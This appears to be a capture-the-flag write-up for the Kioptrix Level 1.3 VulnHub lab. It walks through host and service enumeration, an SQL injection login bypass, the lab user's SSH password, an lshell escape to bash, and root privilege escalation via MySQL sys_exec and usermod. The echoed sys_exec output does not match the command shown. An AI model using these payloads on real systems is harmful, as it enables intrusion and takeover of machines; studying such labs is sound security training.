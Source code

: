 # Information

- Name: Kioptrix: Level 1.3 (#4)
- Date release: 8 Feb 2012
- Author: Kioptrix
- Series: Kioptrix
- Platform: VulnHub
- Link: https://www.vulnhub.com/entry/kioptrix-level-13-4,25/
- Difficulty: Easy

# Write Up

## Enumeration

### Host Discovery
Host Discovery is performed using the tool [arpScan](https://github.com/aalmeidar/Tools/tree/main/arpScan).Several IPs are listed, of which _10.0.2.5_ is the one indicated.
```Console
# python3 main.py -m 2 -r 10.0.2.0/24
[*] 52:54:00:12:35:00 10.0.2.1
[*] 52:54:00:12:35:00 10.0.2.2
[*] 08:00:27:a3:f2:2f 10.0.2.3
[*] 08:00:27:09:1f:1b 10.0.2.5
```
### Port Scanning 
Port Scanning is performed with [portScan](https://github.com/aalmeidar/Tools/tree/main/portScan) and _nmap_. First, the entire port range is scanned to find those that are open.

The following ports are found:
```Console
# python3 portScanner.py -i 10.0.2.5
[*] Port 22 (ssh) open
[*] Port 80 (http) open
[*] Port 139 (netbios-ssn) open
[*] Port 445 (microsoft-ds) open
```
Three main attack vectors are observed: SSH, Web and SMB. The versions of the respective services are scanned with nmap:

```Console
# nmap -sV -p22,80,139,445 10.0.2.5
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-29 17:29 UTC
Nmap scan report for 10.0.2.5 (10.0.2.5)
Host is up (0.00028s latency).

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
80/tcp  open  http        Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
MAC Address: 08:00:27:09:1F:1B (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.57 seconds
```
#### SSH
Port 22 is running OpenSSH 4.7p1 in Debian 8ubuntu1.2. In this version users can be enumerated to see if they exist in the system with [OpenSSH 2.3 - 7.7 - Username Enumeration](https://www.exploit-db.com/exploits/45233).

#### Web
Port 80 is running Apache httpd 2.2.8. With _whatweb_ ypu can take a quick look at the technologies used. In ths case, nothing interesting but there is a login.

```Console
whatweb http://10.0.2.5
http://10.0.2.5 [200 OK] Apache[2.2.8], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch], IP[10.0.2.5], PHP[5.2.4-2ubuntu5.6][Suhosin-Patch], PasswordField[mypassword], X-Powered-By[PHP/5.2.4-2ubuntu5.6]
```
On the web, there is simply a username field and a password field next to a picture of a goat.
![Index](/images/index.png)

After some tests it is observed that the password field is vulnerable to SQLi. For example, if it is tested with _admin_ and _test' or 1=1-- -_ it gives us the following output:
![SQLi Admin](/images/sqli_admin.png)

You could brute force to find valid users via ssh, but it would take more time.
To finish listing the web, you can perform fuzzing to find directories and files. In this case I will use _gobuster_.

```Console
sudo gobuster dir -u http://10.0.2.5 -x php -w /usr/share/wordlist/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.0.2.5
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlist/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2022/08/29 18:00:24 Starting gobuster in directory enumeration mode
===============================================================
/index                (Status: 200) [Size: 1255]
/images               (Status: 301) [Size: 344] [--> http://10.0.2.5/images/]
/index.php            (Status: 200) [Size: 1255]
/member               (Status: 302) [Size: 220] [--> index.php]
/member.php           (Status: 302) [Size: 220] [--> index.php]
/logout               (Status: 302) [Size: 0] [--> index.php]
/logout.php           (Status: 302) [Size: 0] [--> index.php]
/john                 (Status: 301) [Size: 342] [--> http://10.0.2.5/john/]
/robert               (Status: 301) [Size: 344] [--> http://10.0.2.5/robert/]
/server-status        (Status: 403) [Size: 328]

===============================================================
2022/08/29 18:01:00 Finished
===============================================================
```
Users john and robert are found. Accessing john's directory exposes his credentials. It can also be checked by login or SQLi.
![John Directory](/images/john_directory.png)
![John Password](/images/john_password.png)

#### SMB
On the other hand, ports 139 and 445 are running smb. To enumerate them, some nmap scripts intended for this purpose will be used.

```Console
# nmap -p139,445 --script smb-enum-users,smb-enum-shares 10.0.2.5
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-29 18:14 UTC
Nmap scan report for 10.0.2.5 (10.0.2.5)
Host is up (0.00025s latency).

PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
MAC Address: 08:00:27:09:1F:1B (Oracle VirtualBox virtual NIC)

Host script results:
| smb-enum-shares:
|   account_used: guest
|   \\10.0.2.5\IPC$:
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (Kioptrix4 server (Samba, Ubuntu))
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.0.2.5\print$:
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\var\lib\samba\printers
|     Anonymous access: <none>
|_    Current user access: <none>
| smb-enum-users:
|   KIOPTRIX4\john (RID: 3002)
|     Full name:   ,,,
|     Flags:       Normal user account
|   KIOPTRIX4\loneferret (RID: 3000)
|     Full name:   loneferret,,,
|     Flags:       Normal user account
|   KIOPTRIX4\nobody (RID: 501)
|     Full name:   nobody
|     Flags:       Normal user account
|   KIOPTRIX4\robert (RID: 3004)
|     Full name:   ,,,
|     Flags:       Normal user account
|   KIOPTRIX4\root (RID: 1000)
|     Full name:   root
|_    Flags:       Normal user account

Nmap done: 1 IP address (1 host up) scanned in 0.27 seconds
```
- Found users: john, loneferret, nobody, robert and root. 
- Shared directories found: IPC$ and print$

## Exploitation
First of all, you can check if the obtained credentials access the ssh service. Entering the username _john_ and the password _MyNameIsJohn_ returns a shell. The shell is an _lshell_, that is, it is a restricted shell where only the commands listed with the _?_ or _help_ command can be executed. 
```Console
ssh -oHostKeyAlgorithms=+ssh-dss john@10.0.2.5
```

To escape from lshell (0.9.5) and start a bash you can run:
```Console
echo os.system('/bin/bash')
```
With this we would already be inside the machine and we could access the root directory.

## Privilege Escalation

It can be seen that the mysql service exists in the system. It tries to login as root without a password and is successful. Via mysql_udf we can change john's groups. 
If you list /etc/passwd you can see a group _admin_.

```Console
john@Kioptrix4:~$ mysql -u root
```

```Console
mysql> select  sys_exec('usermod -a -G admin john');
+-------------------------------------+
| sys_exec('usermod -a -G root john') |
+-------------------------------------+
| NULL                                |
+-------------------------------------+
1 row in set (0.05 sec)

mysql> exit
Bye
john@Kioptrix4:~$ sudo su
[sudo] password for john:
root@Kioptrix4:/home/john# whoami
root
```
